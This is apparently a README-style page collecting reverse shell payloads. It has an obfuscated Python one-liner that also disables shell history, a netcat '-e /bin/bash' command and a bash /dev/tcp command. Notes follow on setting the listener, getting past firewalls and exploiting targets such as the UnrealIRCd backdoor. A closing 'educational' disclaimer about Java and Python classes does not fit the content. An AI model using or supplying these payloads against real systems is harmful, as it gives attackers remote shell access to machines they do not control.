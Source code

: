 Example Python reverse shell payload:

bash
Copy code
python -c "import os;import pty;import socket;tLnCwQLCel='local_ip';EvKOcV=local_port;QRRCCltJB=socket.socket(socket.AF_INET,socket.SOCK_STREAM);QRRCCltJB.connect((tLnCwQLCel,EvKOcV));os.dup2(QRRCCltJB.fileno(),0);os.dup2(QRRCCltJB.fileno(),1);os.dup2(QRRCCltJB.fileno(),2);os.putenv('HISTFILE', '/dev/null');pty.spawn('/bin/bash');QRRCCltJB.close();"

### Netcat Reverse Shell
This payload uses Netcat (nc) to initiate a reverse shell. The target system must have Netcat installed.

Example Netcat reverse shell payload:

bash
Copy code
nc -e /bin/bash local_ip local_port
Bash Reverse Shell
This payload creates a reverse shell using Bash's built-in /dev/tcp/ method.

### Example Bash reverse shell payload:

bash
Copy code
bash -i >& /dev/tcp/local_ip/local_port 0>&1
Important Notes
Local IP and Port:
Ensure that you configure local_ip and local_port to match your local machine's IP and the port where you are listening for reverse shell connections. Use a tool like nc or socat to listen on the specified port.


## Network Configuration:
Make sure the target machine can connect to your local IP and port. This might require ensuring there are no firewalls blocking the connection.


## Target Vulnerability:
This script assumes that the target system is vulnerable and can be exploited using a reverse shell payload. The vulnerability could be a misconfiguration or a known vulnerability like the UnrealIRCd backdoor (or similar).



______________________________________________________________________________________________________________________________________________________


**Note:** These projects are for educational purposes to demonstrate the use of classes and basic logic in Java and Python. 
